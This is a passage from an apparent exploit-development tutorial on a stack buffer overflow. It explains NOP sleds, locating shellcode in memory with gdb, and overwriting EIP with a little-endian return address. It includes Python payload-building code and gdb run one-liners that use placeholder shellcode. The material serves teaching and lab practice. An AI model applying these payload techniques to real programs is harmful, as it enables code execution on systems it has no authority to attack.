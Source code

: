 # The Return Address
Once we have found all the bad characters that must be excluded, we can start thinking about our final payload. What do we need? How can the program execute it? To answer these questions, we must know what NOPs are:

## NOP:

NOP, or “no operation,” is a computer instruction that does nothing; it performs no function and does not alter the state of registers, flags, or memory. NOPs are used as placeholders for future code, to create deliberate time delays, to synchronize operations, to pad code for alignment, to prevent pipeline hazards, and in security exploits.

We will using basics NOPS but keep in mind that also the **polymorphic NOPS** exists, feel free to research about them.

## Finding the right address:
- First, we must modify the previous payload to get an idea of where our shellcode will be located in memory:
```
offset = 267                  # The known amount of bytes to reach EIP
nops = b'\x90' * 100          # The amount of NOPS we want to use in this case
tmp_shellcode = b'\x33' * 150         # A test shellcode just to locate the space of it on the memory
padding = b'E' * (offset  - len(nops) - len(tmp_shellcode))      # The amount of padding we will use
eip = b'k' * 4                # EIP test value
    
payload = padding + nops + tmp_shellcode + eip   
```

- Now let us apply the changes:

```bash
run $(python3 -c "import sys; offset = 267; nops = b'\x90' * 100; tmp_shellcode = b'\x33' * 100; padding = b'E' * (offset - len(nops) - len(tmp_shellcode)); eip = b'k' * 4; payload = padding + nops + tmp_shellcode + eip; sys.stdout.buffer.write(payload)")
```

<img width="1274" height="84" alt="1" src="https://github.com/user-attachments/assets/fe769006-855b-4203-b38a-e9cca1a57cf1" />


Now, once we reach our previous breakpoint (or the program crashes), we can examine the program’s memory to look for a return address using ```x/400xb $esp``` (Adjust depending on your case)

<img width="783" height="676" alt="2" src="https://github.com/user-attachments/assets/08763347-098f-4ca1-8ec2-c228a92cd235" />


As can be seen, the NOPs start at 0xffffd0b0. The idea is to use the return address as the new value for EIP register to redirect the program to where our NOPS are in memory, causing the CPU slides into our shellcode and executing it. 


In this case we choose 0xffffd0c0 as the new value. The address must be written in our payload using little endian format:
```
b'\xc0\xd0\xff\xff'  # New EIP value
```
## Updated test payload:
```
run $(python3 -c "import sys; offset = 267; nops = b'\x90' * 100; tmp_shellcode = b'\x33' * 100; padding = b'E' * (offset - len(nops) - len(tmp_shellcode)); eip = b'\xc0\xd0\xff\xff'; payload = padding + nops + tmp_shellcode + eip; sys.stdout.buffer.write(payload)")
```



